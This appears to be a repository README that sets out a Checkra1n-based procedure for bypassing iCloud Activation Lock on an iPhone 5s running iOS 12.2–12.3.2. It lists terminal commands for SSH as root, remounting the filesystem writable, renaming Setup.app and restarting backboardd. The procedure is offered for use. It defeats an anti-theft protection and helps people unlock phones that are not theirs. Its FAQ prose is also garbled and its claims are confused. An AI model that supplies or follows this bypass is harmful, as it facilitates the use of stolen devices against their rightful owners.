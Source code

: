 ## FAQs:

* This method uses Checkra1n Exploit to Bypass iOS iCloud Activation Lock even after Restart / Respring and Reset, It wipes out the iCloud Account on the iPhone / iOS Software and Recaches the Old System up alive, due to this. The method also Backs Up the iOS Setup.app or renames it for Removal of the Activation Lock, You can also use another Account on the iPhone after Refresh but never update it to the Latest due to Restrictions like that of so on Serial Number locked into the iPhone Mechanism from its Original Owners, Whatever you do; Unless tested, Just dont update it until further Updates.

* This method was also tested on iPhone 5s using iOS 12.2 till 12.3.2 but never on iOS 12.3.3

## Commands:

Paste this into the first terminal window:

( 1 ):
* ./tcprelay.py -t 44:2222

Paste this into the second terminal window:

( 1 ):
* ssh root@localhost -p 2222

( 2 ):
* mount -o rw,union,update /

( 3 ):
* echo "" >> /.mount_rw

( 4 ):
* mv /Applications/Setup.app /Applications/Setup.app.crae

or

* mv /Applications/Setup.app /Applications/Setup.app.orig

( 5 ):
* uicache --all

( 6 ):
* killall backboardd

# Copyright:

* This method was developed by AppleTech752, AppleDemo, and Exploit3d, recompiled successfully by Xin Snowflakes.

## Credits to the Peeps above, and of course axi0mX for the Original Developer.
